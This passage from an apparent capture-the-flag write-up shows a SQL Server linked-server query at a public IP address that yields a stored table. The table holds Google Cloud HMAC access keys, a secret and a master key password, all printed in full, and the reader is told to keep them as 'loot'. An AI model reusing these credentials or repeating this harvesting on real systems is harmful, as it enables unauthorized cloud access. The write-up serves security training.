 ![img]({{ '/assets/images/flag5/Untitled 9.png' | relative_url }}){: .center-image }

We’ll look at the first table `myqueries` - perhaps someone has stored sensitive information there for reference?

```sql
EXEC ('USE bulkimport; SELECT * FROM myqueries;') AT [34.74.254.28];
```

![img]({{ '/assets/images/flag5/Untitled 10.png' | relative_url }}){: .center-image }

## Google Cloud

Interesting - looks like we’ve found some Google Cloud credentials. Save the output to your loot.

```bash
 -- create master key
CREATE MASTER KEY ENCRYPTION BY PASSWORD = '56u5v37ufujfc37jkv7@!'

-- create database scoped credential
CREATE DATABASE SCOPED CREDENTIAL GCSCredential
WITH IDENTITY = 'S3 Access Key',
SECRET = 'GOOG1EK5TFLGG5YIJXGVLW5LVSPVNGW53HB2NSTB7UPZX4VJCGVUAEY36CZAI:BXCiBXKI71DRbgzuJEvKz0q+UZ9i/oPjUizi6Od7';

--create external data source
CREATE EXTERNAL DATA SOURCE GCSStorage
WITH ( TYPE = BLOB_STORAGE,
LOCATION = 's3://storage.googleapis.com/mp-bulk-insert/'
, CREDENTIAL = GCSCredential
);   

CREATE EXTERNAL DATA SOURCE GCSStorageError
WITH ( TYPE = BLOB_STORAGE,
LOCATION = 's3://storage.googleapis.com/mp-bulk-insert/'
, CREDENTIAL = GCSCredential
);
EXEC msdb.dbo.gcloudsql_bulk_insert
@database = 'bulkimport',
@schema = 'dbo',
@object = 'trialdata',
@file = 's3://storage.googleapis.com/mp-bulk-insert/bulkinsert.bcp',
@formatfile = 's3://storage.googleapis.com/mp-bulk-insert/bulkinsert.fmt',
@fieldquote = '"',
@formatfiledatasource = 'GCSStorage',
@ROWTERMINATOR = '0x0A',
@fieldterminator = ',',
@datasource ='GCSStorage',
@errorfiledatasource = 'GCSStorageError',
@errorfile = 's3://storage.googleapis.com/mp-bulk-insert/bulkinsert_sampleimport.log',
@ordercolumnsjson =
'[{"name": "PersonID","order": " asc "},{"name": "BirthDate","order": "asc"}]'   

```
